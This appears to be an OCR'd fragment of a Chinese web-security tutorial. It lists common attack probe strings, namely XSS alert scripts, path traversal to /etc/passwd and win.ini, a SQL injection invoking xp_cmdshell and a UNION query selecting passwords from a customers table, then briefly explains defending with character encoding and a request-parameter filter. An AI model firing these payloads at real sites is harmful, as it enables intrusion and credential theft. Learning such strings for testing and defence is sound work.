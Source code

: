 ```
%22%3cscript%3ealert(%22xss%22)%3c/script%3e

%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini

%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html

%3f.jsp

%3f.jsp

<script>alert('Vulnerable');</script>

<script>alert('Vulnerable')</script>

?sql_debug=1

a%5c.aspx

a.jsp/undefined<script>alert('Vulnerable')</script>

a/

a?undefined<script>alert('Vulnerable')</script>

">undefined<script>alert('Vulnerable')</script>

';exec%20master..xp_cmdshell%20'dir%20 c:%20>%20c:\inetpub\wwwroot\?.txt'--&&

%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E

%3Cscript%3Ealert(document. domain);%3C/script%3E&

%3Cscript%3Ealert(document.domain);%3C/script%3E&SESSION_ID={SESSION_ID}&SESSION_ID=

1%20union%20all%20select%20pass,0,0,0,0%20from%20customers%20where%20fname=
```

**最好使用火狐浏览器演示效果**

### 2.如何防御XSS攻击

将脚本特殊字符，转换成html源代码进行展示。

汉子编码http://www.mytju.com/classcode/tools/encode_gb2312.asp

步骤：编写过滤器拦截所有getParameter参数，重写httpservletwrapp方法
